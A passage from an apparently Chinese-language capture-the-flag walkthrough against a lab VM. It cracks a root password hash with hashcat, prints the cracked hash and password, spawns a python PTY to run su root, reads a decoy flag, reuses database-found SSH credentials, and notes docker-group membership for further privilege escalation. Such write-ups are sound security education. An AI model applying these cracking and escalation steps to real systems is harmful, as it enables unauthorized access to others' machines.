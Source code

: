 ```
root@kali:~# hashcat -w 3 -a 0 -m 1800 -o root.out root.hash /usr/share/metasploit-framework/data/wordlists/common_roots.txt --force
```

得到密码：john

```
root@kali:~# cat root.out
$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:john
```

于是我们su root，但是发现：

```
su root
su: must be run from a terminal
```

所以我们用python伪造一个终端，然后来su root:

```
python -c "import pty;pty.spawn('/bin/bash');"
```

![818602_GFGWBKCNDU8JZEH](/blog.github.io/images/818602_GFGWBKCNDU8JZEH.png)
然后拿到了flag:

```
root@1afdd1f6b82c:/var/www/html# cd
cd
root@1afdd1f6b82c:~# ls
ls
flag
root@1afdd1f6b82c:~# cat flag
cat flag
Life consists of details..
```

### 横向渗透

很明显这不是真正的flag，我们刚才还得到了一个数据库密码，所以我们登录看看：
![818602_2QF62MW9W7659XG](/blog.github.io/images/818602_2QF62MW9W7659XG.png)
我们这里发现一个用户名和密码，之前扫描端口是发现一个22端口，所以这个可能是ssh的登录信息，这个密码md5解密出来后是123456；
我们登录试试：
![818602_APP4J4WFDRXJ39Y](/blog.github.io/images/818602_APP4J4WFDRXJ39Y.png)
登录成功，但是我们发现权限还是低，所以这里又要提权....

### 提取2

我们看这个用户名特别像在docker里面，查看一下：

```
hummingbirdscyber@vulnvm:~$ id
uid=1000(hummingbirdscyber) gid=1000(hummingbirdscyber) groups=1000(hummingbirdscyber),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker)
```
